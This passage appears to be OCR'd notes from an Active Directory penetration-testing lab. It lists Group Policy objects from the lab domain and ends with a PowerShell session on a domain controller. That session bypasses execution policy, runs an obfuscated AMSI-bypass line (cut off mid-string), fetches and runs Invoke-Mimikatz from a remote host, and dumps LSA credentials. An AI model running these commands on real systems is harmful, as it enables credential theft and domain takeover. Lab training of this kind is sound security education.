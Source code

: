 ```
gpcfilesyspath           : \\dollarcorp.moneycorp.local\sysvol\dollarcorp.moneycorp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
distinguishedname        : CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/17/2019 7:00:13 AM
versionnumber            : 3
instancetype             : 4
objectguid               : cd0c7024-e03a-4369-958b-9c93fbd25649
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local

usncreated               : 8019
systemflags              : -1946157056
displayname              : Default Domain Controllers Policy
gpcmachineextensionnames : [{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 2/18/2019 11:09:29 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 39159
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {6AC1786C-016F-11D2-945F-00C04fB984F9}
adspath                  : LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {6AC1786C-016F-11D2-945F-00C04fB984F9}
iscriticalsystemobject   : True
gpcfilesyspath           : \\dollarcorp.moneycorp.local\sysvol\dollarcorp.moneycorp.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
distinguishedname        : CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/17/2019 7:00:13 AM
versionnumber            : 3
instancetype             : 4
objectguid               : 800516c0-1d9d-4cc6-aeae-7b30fae46799
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local

usncreated               : 14716
displayname              : Applocker
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{62C1845D-C4A6-4ACB-BBB0-C895FD090385}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 4/20/2019 6:21:07 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 123116
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {211A25B2-03AD-4E5E-9C6A-AFEFE66EFB2D}
adspath                  : LDAP://CN={211A25B2-03AD-4E5E-9C6A-AFEFE66EFB2D},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {211A25B2-03AD-4E5E-9C6A-AFEFE66EFB2D}
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{211A25B2-03AD-4E5E-9C6A-AFEFE66EFB2D}
distinguishedname        : CN={211A25B2-03AD-4E5E-9C6A-AFEFE66EFB2D},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/17/2019 1:44:15 PM
versionnumber            : 21
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'